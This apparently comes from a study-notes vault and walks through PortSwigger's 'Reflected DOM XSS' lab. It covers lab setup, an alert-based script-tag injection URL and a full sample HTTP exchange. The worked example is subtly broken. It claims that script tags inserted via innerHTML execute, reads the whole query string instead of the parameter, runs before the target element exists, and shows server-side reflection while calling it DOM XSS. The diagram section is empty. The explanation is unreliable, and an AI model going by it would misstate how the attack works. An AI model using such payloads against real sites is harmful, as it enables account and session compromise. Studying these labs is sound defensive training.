

## Exploiting Reflected DOM XSS

### Setting Up the Lab Environment

To access the lab, follow these steps:

1. Visit the URL `https://portswigger.net/web-security`.
2. Click on the sign-up button to create an account.
3. Log in to your account.
4. Navigate to the Academy section.
5. Select all labs.
6. Search for "cross-site scripting labs".
7. Go to lab number 12 titled "Reflected DomXSS".

### Analyzing the Vulnerability

The lab environment consists of a web application that reflects user input in the response. We need to identify the input points and determine how the input is processed by the client-side script.

#### Identifying Input Points

Use the built-in browser and Burp Proxy to analyze the HTTP requests and responses. Identify the parameters that are reflected in the response.

#### Analyzing the Client-Side Script

Inspect the client-side JavaScript code to understand how the input is processed. Look for functions that manipulate the DOM based on user input.

### Crafting the Injection

To exploit the Reflected DOM XSS vulnerability, we need to craft an injection that calls the `alert` function. This will demonstrate the successful exploitation of the vulnerability.

#### Example Injection

Suppose the application reflects the `param` parameter in the response. We can craft an injection like this:

```
http://example.com/?param=<script>alert('XSS')</script>
```

When the user visits this URL, the client-side script will process the reflected input and execute the `alert` function.

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

```http
GET /?param=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: close

HTTP/1.1 200 OK
Date: Tue, 01 Mar 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 204
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Reflected DOM XSS</title>
</head>
<body>
    <script>
        var param = window.location.search.substring(1);
        document.getElementById("output").innerHTML = param;
    </script>
    <div id="output"><script>alert('XSS')</script></div>
</body>
</html>
```

### Sequence Diagram

A sequence diagram can help visualize the interaction between the client and the server during the exploitation of the Reflected DOM XSS vulnerability.



---
<!-- nav -->
[[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/13-Lab 12 Reflected DOM XSS/02-Common Pitfalls and Detection|Common Pitfalls and Detection]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/13-Lab 12 Reflected DOM XSS/00-Overview|Overview]] | [[04-How to Prevent  Defend Against Reflected DOM XSS|How to Prevent  Defend Against Reflected DOM XSS]]
